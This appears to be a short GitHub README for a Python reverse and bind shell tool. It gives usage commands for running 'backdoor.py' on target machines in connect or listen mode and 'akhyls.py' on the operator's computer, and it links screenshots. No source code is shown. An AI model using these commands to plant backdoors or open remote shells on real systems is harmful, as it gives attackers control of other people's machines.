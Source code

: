 Python Reverse-Bind Shell
Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
<img src="https://preview.ibb.co/kT9JLz/1.png">
<img src="https://preview.ibb.co/hjc50z/2.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)

        
<img src="https://preview.ibb.co/b3ffYK/Screen_Shot_08_20_18_at_04_52_PM_001.png">
<img src="https://image.ibb.co/hiwLYK/Screen_Shot_08_20_18_at_04_52_PM.png">
